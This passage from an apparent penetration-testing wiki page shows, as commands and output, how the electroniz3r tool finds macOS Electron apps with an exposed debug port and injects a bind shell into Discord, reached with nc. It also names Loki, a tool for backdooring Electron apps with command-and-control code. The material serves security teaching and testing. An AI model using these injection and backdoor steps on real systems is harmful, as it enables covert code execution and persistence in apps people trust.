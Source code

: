 ```bash
# Find electron apps
./electroniz3r list-apps

╔══════════════════════════════════════════════════════════════════════════════════════════════════════╗
║    Bundle identifier                      │       Path                                               ║
╚──────────────────────────────────────────────────────────────────────────────────────────────────────╝
com.microsoft.VSCode                         /Applications/Visual Studio Code.app
org.whispersystems.signal-desktop            /Applications/Signal.app
org.openvpn.client.app                       /Applications/OpenVPN Connect/OpenVPN Connect.app
com.neo4j.neo4j-desktop                      /Applications/Neo4j Desktop.app
com.electron.dockerdesktop                   /Applications/Docker.app/Contents/MacOS/Docker Desktop.app
org.openvpn.client.app                       /Applications/OpenVPN Connect/OpenVPN Connect.app
com.github.GitHubClient                      /Applications/GitHub Desktop.app
com.ledger.live                              /Applications/Ledger Live.app
com.postmanlabs.mac                          /Applications/Postman.app
com.tinyspeck.slackmacgap                    /Applications/Slack.app
com.hnc.Discord                              /Applications/Discord.app

# Check if an app has vulenrable fuses vulenrable
## It will check it by launching the app with the param "--inspect" and checking if the port opens
/electroniz3r verify "/Applications/Discord.app"

/Applications/Discord.app started the debug WebSocket server
The application is vulnerable!
You can now kill the app using `kill -9 57739`

# Get a shell inside discord
## For more precompiled-scripts check the code
./electroniz3r inject "/Applications/Discord.app" --predefined-script bindShell

/Applications/Discord.app started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/8e0410f0-00e8-4e0e-92e4-58984daf37e5
Shell binding requested. Check `nc 127.0.0.1 12345`
```


- [https://github.com/boku7/Loki](https://github.com/boku7/Loki)

Loki was designed to backdoor Electron applications by replacing the applications JavaScript files with the Loki Command & Control JavaScript files.


## References

- [https://www.electronjs.org/docs/latest/tutorial/fuses](https://www.electronjs.org/docs/latest/tutorial/fuses)
- [https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks](https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks)
- [https://m.youtube.com/watch?v=VWQY5R2A6X8](https://m.youtube.com/watch?v=VWQY5R2A6X8)

{{#include ../../../banners/hacktricks-training.md}}



